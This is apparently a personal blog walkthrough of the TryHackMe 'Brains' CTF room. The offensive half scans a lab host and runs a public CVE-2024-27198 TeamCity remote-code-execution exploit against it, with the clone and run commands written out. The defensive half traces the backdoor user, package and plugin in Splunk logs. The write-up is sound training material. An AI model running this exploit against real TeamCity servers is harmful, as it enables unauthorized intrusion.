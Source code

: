 ```yaml
---
title: THM — Brains walkthrough (easy)
date: 2024-10-08 12:34:27 -500
categories: [article]
tags: [tryhackme,write-up,ctf,easy]
---
```


> Walkthrough of room Brains from TryHackMe :
> https://tryhackme.com/r/room/brains

![Image logo](https://miro.medium.com/v2/resize:fit:640/format:webp/1*6nIb44thdlmlI4xeiXfXig.png "Room screenshot")

This room has two parts, the first one is offensive and the second one is defensive.

---

## Part one 🥷— Exploit the server!

There only one mission here, find the flag!

> What is the content of flag.txt in the user’s home folder?

I start by checking if the target is reachable.

![ping test](https://miro.medium.com/v2/resize:fit:720/format:webp/1*daZkj3P1REKt6ayGRHRiUw.png "ping test")

Everything seems okay, let’s exploit then!

### Reconnaissance

![recon by arnold](https://miro.medium.com/v2/resize:fit:640/format:webp/0*hVWUAlIpF3m7rIu5.gif "recon by arnold")

We gonna start by *reconnaissance* to be aware of all (almost) possibilities. It’s more interesting to know what you’re getting into.

```zsh
nmap 10.10.125.92  
  
Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-12 22:02 BST  
Nmap scan report for ip-10-10-125-92.eu-west-1.compute.internal (10.10.125.92)  
Host is up (0.0038s latency).  
Not shown: 997 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
80/tcp open http  
50000/tcp open ibm-db2  
MAC Address: 02:9D:92:C4:AB:2B (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 1.67 seconds
```

There are three possible options:

- SSH: May be a brute-force or anonymous login (the least likely)
- HTTP: May be a WebApp hosted locally (Enumeration with gobuster)
- ibm-db2 on **50000/tcpd**

### HTTP port

![picture of the website "under maintenance"](https://miro.medium.com/v2/resize:fit:720/format:webp/1*XvL-V9YMDG24FEdyY0s02w.png "under maintenance")

The site is _under maintenance_ and Gobuster showed nothing.

![a man crying](https://miro.medium.com/v2/resize:fit:640/format:webp/1*gpP4cfml0n8rYgx3Uhbn5g.gif "i am crying")

But let’s move on the **_port 50000_**.

### ibm-db2 port

![login page to TeamCity webapp](https://miro.medium.com/v2/resize:fit:640/format:webp/1*3d_ry35GB1FW_qfbqEWLKw.png "login page of TeamCity")

- Port 50000 is used for the ibm-db2 service
- Database service
- Login page at: `http://10.10.125.92:50000/login.html`

![That's our target](https://miro.medium.com/v2/resize:fit:640/format:webp/1*fRWHPZl9rgUm3nYmW6GhUw.gif "Target founded")

- Login page uses Jetbrain TeamCity `version 2023.11.03`

After Googling (Jetbrain TeamCity version 2023.11.03 CVE) a bit we found:

> TeamCity is a continuous integration server developed by JetBrains. (from jetbrains.com)

- Jetbrain TeamCity version _vulnerable_ to **CVE-2024–27198**
- Possible **Remote Code Execution** ([https://github.com/W01fh4cker/CVE-2024-27198-RCE.git](https://github.com/W01fh4cker/CVE-2024-27198-RCE.git%60))

![bingo](https://miro.medium.com/v2/resize:fit:440/format:webp/1*eI-JQ5cJwVTCYnZ3DY7_Mw.gif "bingo")

Enough of reconnaissance, let’s try this RCE.

### RCE exploit

![Github repo of the RCE script](https://miro.medium.com/v2/resize:fit:696/1*kq_J76kVztxMcrGESL2jIw.png)

**Installation**

```bash
git clone https://github.com/W01fh4cker/CVE-2024-27198-RCE.git  
  
cd CVE-2024-27198-RCE  
  
pip install requests urllib3 faker  
  
# I got troubles executing the python script  
# ModuleNotFoundError raised (faker not found)  
# The solution for me (do it only if the script raise the same error):  
  
sudo apt install faker
```

Now everything seems good. Time to execution

```bash
python CVE-2024-27198-RCE.py -t http://10.10.125.92:50000
```

The result:

![TeamCity RCE script execution](https://miro.medium.com/v2/resize:fit:700/1*L89gRT7r3JZeK98qXopRlg.png)

The box is over, we’re in 🥷

![Neo inside the matrix](https://miro.medium.com/v2/resize:fit:220/1*sGrk_cgQUg4uRa4uL1qlfg.gif "I'm in")

First flag done ✅

![1st flag](https://miro.medium.com/v2/resize:fit:700/1*pvvCOATvbZBB33Uw0w_3uQ.png "1st flag")

---
## Part two 🕵️‍♂️— Let’s investigate

![Duffy investigating](https://miro.medium.com/v2/resize:fit:220/1*aUMpEFOwKFmwd5StXfgNJA.gif "time to investigation")


Let’s visit _http://IP_TARGET:8000_ to get connected with ***Splunk***.

> What is the name of the backdoor user which was created on the server after exploitation?

Go to “**Search & Reporting > Data Summary > Sourcetypes”**

Go to “**Search & Reporting > Data Summary > Sourcetypes”**

![](https://miro.medium.com/v2/resize:fit:558/1*1Hp9yrLiI1paEyXoVIIT_Q.png)

![](https://miro.medium.com/v2/resize:fit:1071/1*4oLFZbB9w-6HwUGlAIN9MA.png)

Then choose **_auth_logs_** because **user creation** is probably related to **authentication** than the other sources here.

![](https://miro.medium.com/v2/resize:fit:700/1*wrYmw2IgFr4v1CA0lTx6Ww.png)

Change the observation windows from “**Last 24 hours”** to “**Before (today)”**and apply.

![](https://miro.medium.com/v2/resize:fit:700/1*1Q4_glyNlV4clZhNAGplJg.png)

At the bottom left of the website, click to get more fields.

![](https://miro.medium.com/v2/resize:fit:439/1*wZDwItrzRbZ1-g8bYsjClg.png)

Expand the “**name”** field and the flag the malicious one. Click on the malicious name and you will get the logs related. Save the date of these logs 07/04/2024 (mm-dd-yyyy).

![2nd flag](https://miro.medium.com/v2/resize:fit:700/1*mOxjyJtbEvNbBsiNBZ2aKQ.png "2nd flag")


What is the name of the malicious-looking package installed on the server?

Now we have to go back to **Data summary** and choose **_packages_**.

![](https://miro.medium.com/v2/resize:fit:700/1*WD_ERZsySZVmNC0wU5KkLQ.png)

Let’s change the observation windows from **“Last 24 hours”** to **“Since 7/4/24”**, apply, click on the key word “**_installed”_**, then **Add to search**.  
It will only show the installation logs. Still huge, reduce the observation window and move closer to 7/4/24 until there are fewer than 5 logs.

![](https://miro.medium.com/v2/resize:fit:700/1*1iviYRCbpKX06vV2Sf19AQ.png)

The third flag is here.

![3rd flag](https://miro.medium.com/v2/resize:fit:700/1*dTRPCRiAxpNxoX_GUm9hRA.png "3rd flag")


> What is the name of the plugin installed on the server after successful exploitation?

Now we have to go back to **Data summary** and choose **_Sources/teamcity-activities.log_**.

![](https://miro.medium.com/v2/resize:fit:700/1*HjQTWX-PXUxCfMrJzova0w.png)

Filter with “**_plugin”_** and here is the **last flag**.

![4th flag](https://miro.medium.com/v2/resize:fit:700/1*aUx1glaDyYhxpBWqwA3J0A.png)


All flags down, mission passed.

![](https://media1.tenor.com/m/lQBJJmatxPYAAAAd/mission-accomplished-penguins.gif)

Be proud of what you’ve accomplished.

See you soon!

> “Security used to be an inconvenience sometimes, but now it’s a necessity all the time.” — Martina Navratilova


<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="fr"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>